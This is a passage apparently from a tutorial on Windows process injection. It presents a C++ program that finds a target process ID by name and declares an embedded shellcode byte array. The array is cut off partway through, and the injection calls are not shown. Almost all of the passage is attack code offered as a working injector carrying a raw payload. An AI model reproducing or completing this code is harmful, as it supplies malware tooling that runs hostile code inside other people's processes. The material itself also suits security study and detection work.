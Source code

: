 And this is the program that injects into the remote process:
```c++
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>
#include <string>

// Find PID by process name. Returns first occurrence.
int findMyProc(wchar_t * procname) {

	HANDLE hSnapshot; // Handle al snapshot de todos los procesos en el sistema.
	PROCESSENTRY32 pe;
	int pid = 0;
	BOOL hResult;

	printf("Searching for the process %s to get its PID...\n", procname);

	// snapshot of all processes in the system
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE) return 0;

	// It is neccesary to initialize the size of the process entry.
	/* Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32). If you do not initialize dwSize,
	Process32First fails (https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-processentry32) */
	pe.dwSize = sizeof(PROCESSENTRY32W);

	// Retrieve infrormation about first process encountered in a system snapshot
	hResult = Process32FirstW(hSnapshot, &pe);

	// Get information about the obtained process using its handle
	// and exit if unsuccessful
	while (Process32NextW(hSnapshot, &pe)) {
		if (lstrcmpW(pe.szExeFile, procname) == 0) {
			pid = pe.th32ProcessID;
			break;
		}
	}

	// Close the open handle; we don't need it
	CloseHandle(hSnapshot);
	return pid;
}


int main(int argc, char * argv[]) {
	// Check that we inserted the PID argument
	if (argc < 2) {
		printf("Usage of the tool: %s <PID>", argv[0]);
		return EXIT_FAILURE;
	}

	/* Variable declaration zone */
	unsigned char shellcode[] = {
	  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
	  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
	  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
	  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
	  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
	  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
	  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
	  0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0,
	  0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
```
